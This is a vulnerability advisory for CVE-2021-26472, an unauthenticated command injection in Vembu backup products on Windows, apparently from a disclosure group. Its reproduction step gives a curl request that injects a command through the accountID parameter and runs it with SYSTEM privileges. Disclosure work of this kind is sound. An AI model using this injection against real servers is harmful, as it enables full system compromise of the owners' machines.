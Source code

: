 ```yaml
---
layout: cve
cve: CVE-2021-26472
title: Unauthenticated remote command execution with SYSTEM privileges in Vembu products
discovered_by:
  - Wietse Boonstra
author: Frank Breedijk
researchers:
  - Wietse Boonstra
  - Frank Breedijk
case: DIVD-2020-00011
redirect_from:
  - /CVE-2021-26472/
products:
  - VembuBDR
  - VembuOffsiteDR
  - Other products in this family may also be effected
versions:
  - VembuBDR v4.2.0.1
  - VembuBDR v4.2.0
  - VembuBDR v4.1.0
  - VembuBDR v4.0.2
  - VembuBDR v4.0.1
  - VembuBDR v4.0.0
  - VembuBDR v3.9.1 Update1
  - VembuBDR v3.9.0 Update1
  - VembuBDR v3.9.0
  - VembuBDR v3.8.0
  - VembuBDR v3.7.0
  - VembuBDR v3.5.0.0
  - VembuOffsiteDR v4.2.0.1
  - VembuOffsiteDR v4.2.0
  - Other products and versions of products in this family may also be effected
cvss:
  - score: 10.0
  - url: https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
---
```


## Summary
On a Windows system the API located at /consumerweb/secure/download.php allows an attacker to execute arbitrary commands with SYSTEM privileges

## How to reproduce
Step 1: Install a vulnerable product on Windows

Step 2: execute the following http request
```bash
$ curl 'http://local/consumerweb/secure/download.php?Action=ResellerTemplate&accountID=%26whoami'
```

Step 3: Result

![Screenshot that proves RCE happened with SYSTEM privileges](assets/images/cve-2021-26472.png)

## Impact
This vulnerability allows an attacker to execute arbitrary windows commands with full system privileges. A.k.a. a full system compromise.



